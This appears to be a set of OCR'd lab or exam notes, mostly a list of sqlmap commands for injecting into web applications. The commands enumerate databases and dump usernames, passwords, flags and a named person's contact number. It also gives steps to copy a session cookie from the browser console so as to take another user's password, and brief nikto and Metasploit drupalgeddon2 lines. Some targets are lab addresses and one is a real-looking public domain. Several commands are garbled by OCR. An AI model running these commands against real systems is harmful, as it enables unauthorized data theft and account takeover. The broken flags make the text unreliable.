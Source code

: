 OS-command injection to retrieve a specific file – dvwa 

-------- 

-> sqlmap -u "http://test1.ceg.com/search.php?q=test" --cookie="PHPSESSID=your_ session_id" --dump 

-> sqlmap -u "http://test1.ceg.com/search.php?q=test" --cookie="PHPSESSID=your_ session_id" --dbs 

-> sqlmap -u "http://test1.ceg.com/search.php?q=test" --cookie="PHPSESSID=your_ session_id" -D database_name --tables 

-> sqlmap -u "http://test1.ceg.com/search.php?q=test" --cookie="PHPSESSID=your_ session_id" -D database_name -T users –columns 

-> sqlmap -u "http://test1.ceg.com/search.php?q=test" --cookie="PHPSESSID=your_ session_id" -D database_name -T users -C username,password --dump 

------ 

-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 –dbs 

-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name - 

-tables 

-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name - T table_name –columns 

-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name - T table_name -C Flag --dump 

------ 
DelaySQL:
-> sqlmap -u "http://targetsite.com/item?id=5" --cookie="session=abcdef1234567890" --technique=T --dump -D database_name -T users -C contact_number --where="name='Maria'"


now in parrot os, open firefox and login into the website given and details. 

Go to profile and and right cleck and inspect and console type “document.cookie” you will get one value. 

Open the terminal and type the below commands to get the password of other user. 

sqlmap -u "http://www.justwatch.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs 

sqlmap -u "http://www.justwatch.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope – -tables 

sqlmap -u "http://www.justwatch.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login – -dump 

Website: 

---Drupal--- 

-> nikto –h .... 

->msfconsole 

-> search drupalgeddon2 
